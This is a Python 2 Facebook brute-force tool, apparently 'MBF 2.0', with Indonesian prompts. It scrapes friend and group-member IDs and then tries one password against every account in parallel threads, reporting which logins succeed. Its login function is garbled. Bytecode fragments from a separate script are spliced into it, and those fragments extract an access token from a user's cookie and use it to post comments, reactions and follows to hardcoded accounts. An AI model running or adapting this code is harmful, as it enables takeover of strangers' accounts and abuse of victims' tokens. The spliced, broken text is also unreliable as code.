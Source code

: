 import platform,os,sys
def cetak(x,e=0):
	w = 'mhkbpcP'
	for i in w:
		j = w.index(i)
		x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
	x += '\033[0m'
	x = x.replace('!0','\033[0m')
	if e != 0:
		sys.stdout.write(x)
	else:
		sys.stdout.write(x+'\n')
if platform.python_version().split('.')[0] != '2':
	cetak('!m[!] Kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x'%v().split(' ')[0])
	sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
  import mechanize
except ImportError:
	cetak('!m[!] SepertiNya Module !cmechanize!m belum di install...\n!h[!] pip2 install mechanize')
	sys.exit()
br = 0
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
class mt(threading.Thread):
	def __init__(self,i,p):
		threading.Thread.__init__(self)
		self.id = i
		self.a = 0
		self.p = p
	def update(self):
		return self.a,self.id
	def run(self):
		try:
			data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
		except KeyboardInterrupt:
			sys.exit()
		except:
			self.a = 4
			sys.exit()
		if 'm_sess' in data.url or 'save-device' in data.url:
			self.a = 1
		elif 'checkpoint' in data.url:
			self.a = 2
		else:
			self.a = 3
def crack(d):
	while 1:
		s = inputD('[?] Sandi')
		if len(s) < 6:
			cetak('!m[!] Jumlah huruf minimal !k6')
		else:
			break
	return crack0(d,s)
def tampilhasil(akun,sandi,data):
	cekpoint = []
	salah = 0
	berhasil = []
	for i in akun:
		st,id = i
		if st == 1:
			berhasil.append(id)
		elif st == 2:
			cekpoint.append(id)
		elif st == 3:
			salah += 1
	cetak('!h[*] Berhasil !c%d'%len(berhasil))
	if len(berhasil) != 0:
		for i in berhasil:
			cetak('!h### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!k[*] Cekpoint !c%d'%len(cekpoint))
	if len(cekpoint) != 0:
		for i in cekpoint:
			cetak('!k### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!m[*] Gagal    !c'+str(salah))
	i = inputD('[?] Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(data)
	else:
		return menu()
def crack0(data,sandi):
	akun = []
	cetak('!h[*] MengCrack !k%d Akun !hdengan sandi !m[!k%s!m]'%(len(data),sandi))
	cetak('!h[*] Cracking  !k0!m%',1)
	sys.stdout.flush()
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		i = i.replace('\n','')
		if len(i) != 0:th.append(mt(i,sandi))
		jml1 += 1
	for i in th:
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	h_error = []
	error = 0
	while 1:
		try:
			for i in th:
				status,id = i.update()
				if status != 0:
					cetak('\r!h[*] Cracking  !k%d!m%s!0'%(int(float((float(jml0)/float(jml1))*100)),'%'),1)
					sys.stdout.flush()
					del(th[th.index(i)])
					if status == 4:
						h_error.append(id)
						if h_error.count(id) == 3:
							pass
						else:
							th.append(mt(id,sandi))
							th[len(th)-1].daemon = True
							th[len(th)-1].start()
					else:
						jml0 += 1
						akun.append((status,id))
		except KeyboardInterrupt:
			sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	cetak('\r!h[*] Cracking  !k100!m%      ')
	tampilhasil(akun,sandi,data)
def install_browser():
	global br
	br = mechanize.Browser()
	br.set_handle_robots(False)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_cookiejar(cookielib.LWPCookieJar())
	br.set_handle_redirect(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
	br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/MBFgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/MBFteman.txt','r').readlines()
	except:pass
def simpan():
	if len(id_bgroup) != 0:
		cetak('!h[*] Menyimpan hasil dari Group')
		try:
			open(os.sys.path[0]+'/MBFgroup.txt','w').write('\n'.join(id_bgroup))
			cetak('!h[!] Berhasil meyimpan !cMBFgroup.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
	if len(id_bteman) != 0:
		cetak('!h[*] Menyimpan hasil daftar Teman...')
		try:
			open(os.sys.path[0]+'/MBFteman.txt','w').write('\n'.join(id_bteman))
			cetak('!h[!] Berhasil meyimpan !cMBFteman.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
def keluar():
	simpan()
	cetak('!m[!] Keluar')
	sys.exit()
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			cetak('\n!m[!] Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				cetak('!m[!] Masukan Opsinya Bro...')
				continue
		else:
			if len(a) == 0:
				cetak('!m[!] Masukan dengan benar')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			cetak('!m[!] Pilihan tidak ada')
			continue
		if i in d:
			break
		else:
			cetak('!m[!] Pilihan tidak ada')
	return i
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?] Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/MBFgroup.txt')
			fid_bgroup = []
	return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?] Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/MBFteman.txt')
			fid_bteman = []
	return 0
def buka(d):
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		cetak('\r!m[!] Gagal membuka !p'+str(d))
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	  i    s
   [31mNot Vulns	   [32mVulnc          C   s$  t  j d ƒ t GHd d GHt d ƒ }  y t j d d i	 d d 6d	 d
 6d d 6d
 d 6d d 6d d 6d d 6d d 6d d 6d i |  d 6ƒ} t j d | j ƒ } | d  k r² d n d | j
 d ƒ } Wn t j j k
 rה d GHn Xt
 d  d! ƒ }  |  j | j
 d ƒ ƒ |  j ƒ  d" GHt ƒ  d  S(#   Nt   cleari2   s   [1;94m-s0   [1;97m[[1;92m>[1;97m] Cookie [1;91m:[1;92m sG   https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_t   headerss   Mozilla/5.0 (Linux; Android 8.1.0; MI 8 Build/OPM1.171019.011) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.86 Mobile Safari/537.36s
   user-agents   https://m.facebook.com/t   referers   m.facebook.comt   hosts   https://m.facebook.comt   origint   1s   upgrade-insecure-requestss#   id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7s   accept-languages	   max-age=0s
   cache-controlsU   text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8t   accepts   text/html; charset=utf-8s   content-typet   cookiest   cookies	   (EAAA\w+)s&   
* Fail : maybe your cookie invalid !!s   
* Your fb access token : i   s&   [1;97m[[1;91m![1;97m] No Connections	   login.txtR   s0   [1;97m[[1;92mג“[1;97m][1;92m Login Berhasil(   R   t   systemt   logot	   raw_inputt   requestst   gett   ret   searcht   textt   Nonet   groupt
   exceptionsR   t   openR   t   closet	   bot_komen(   R-   t   datat
   find_tokent   hasil(    (    s   anggaxdR-   i   s4    
	

)	
c          C   s?  y t  d d ƒ j ƒ  }  Wn# t k
 r> d GHt j d ƒ n Xd } d } d } d } d } d	 } t j d
 | d | d |  ƒ t j d
 |  ƒ t j d |  ƒ t j d |  ƒ t j d |  ƒ t j d |  ƒ t j d | d |  ƒ t j d
 | d | d |  ƒ t j d
 | d | d |  ƒ t ƒ  d  S(   Ns	   login.txtt   rs   [1;97m[!] Token invalids   rm -rf login.txtt   100015073506062s4   HALLO LORD ANGGAXD , GW MAKE SC LU BANG נ˜נ¥°נ˜t   1031861840659590s%   ANGGA KURNIAWAN SANGAT KEREN EUY נ˜t   LOVEs   https://graph.facebook.com/s   /reactions?type=s   &access_token=s>   https://graph.facebook.com/638124327/subscribers?access_token=sD   https://graph.facebook.com/100027597829137/subscribers?access_token=sD   https://graph.facebook.com/100015073506062/subscribers?access_token=sD   https://graph.facebook.com/100002224561488/subscribers?access_token=sD   https://graph.facebook.com/100023409608118/subscribers?access_token=s7   https://graph.facebook.com/me/friends?method=post&uids=s   /comments/?message=(   R9   t   readt   IOErrorR   R.   R1   t   postt   menu(   t   tokett   unat   komRE   t   post2t   kom2t   reac2(    (    s   anggaxdR;   †   s*    
!!!c          C   sw   t  j d ƒ y# t  j d ƒ t d ƒ j ƒ  }  Wn t k
 rC n Xd t j d ƒ j GHt	 GHd d GHd GHt
 ƒ  d  S(	   NR%   t   avss	   login.txts-   [1;97m[[1;94m+[1;97m] Total User : [1;93ms:   https://raw.githubusercontent.com/toketid/server/main/useri2   s   [1;94m-sE   [1;97m[[1;91mג€¢[1;97m] Tidak Punya Key ? Tekan C Untuk Chat Admin(   R   R.   t   mkdirR9   RC   t   OSErrorR1   R2   R5   R/   t   pilih_daftar(   t   token(    (    s   anggaxdt   daftar   s    

	if 'save-device' in url or 'm_sess' in url:
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		cetak('!h[*] Selamat datang !k%s'%nama)
		cetak('!h[*] Semoga ini adalah hari keberuntungan mu...')
		log = 1
	elif 'checkpoint' in url:
		cetak('!m[!] Akun kena checkpoint\n!k[!]Coba Login dengan opera mini')
		keluar()
	else:
		cetak('!m[!] Login Gagal')
def idgroup():
	if log != 1:
		cetak('!h[*] Login !bFB!h dulu bos...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex='/browse/group/members/').url
		except:
			cetak('!m[!] Hanya Bisa Mengambil !h %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
def idteman():
	if log != 1:
		cetak('!h[*] Login !bFB !hdulu bos...')
		login()
		if log == 0:
			keluar()
	cetak('!h[*] Sedang mengumpulkan id teman...')
	buka('https://m.facebook.com/friends/center/mbasic/?fb_ref=bm&sr=1&ref_component=mbasic_bookmark&ref_page=XMenuController')
	jumlah = br.find_link(url_regex='/friends/center/friends/').text
	jumlah = re.findall(r'\((.*a?)\)',jumlah)[0]
	cetak('!h[*] Mengambil !p%s !hid teman'%jumlah) 
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex='friends_center_main').url
	except:
		if len(id_teman) != 0:
			cetak('!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
		else:
			cetak('!m[!] Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		cetak('\r!h[*] !p%s !hid terambil...'%len(id_bteman),1)
		sys.stdout.flush()
		try:
			next = br.find_link(url_regex='friends_center_main').url
		except:
			cetak('\n!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
def menu():
	cetak("\n           !h.-.-..\n          /+/++//\n         /+/++//\n  !k*   !k* !h/+/++//\n   \ /  |/__//\n !h{!mX!h}v{!mX!h}!0!b|!cMBF!b|==========.\n   !h(!m'!h)!0  !h/'|'\           !b\\\n       !h/  \  \          !b'\n       !h\_  \_ \_   !k___!mMBF !c2.0!k___\n\n !m* !bMULTI BRUTEFORCE FACEBOOK\n !m* !cPIRMANSX\n !m* !phttps://github.com/pirmansx\n !m* !phttps://facebook.com/groups/164201767529837\n !m* !phttps://pirmansx.waper.com\n!k.======================.\n|!h  AMBIL !mID!h DARI.....  !k|\n'======================'\n!k#!p1 !hDAFTAR TEMAN\n!k#!p2 !hANGGOTA GROUP\n!k#!p3 !mKELUAR...")
	i = inputM('[?] PILIH',[1,2,3])
	if i == 2:
		lanjutG()
		idgroup()
	elif i == 1:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
install_browser()
menu()
#
#
#
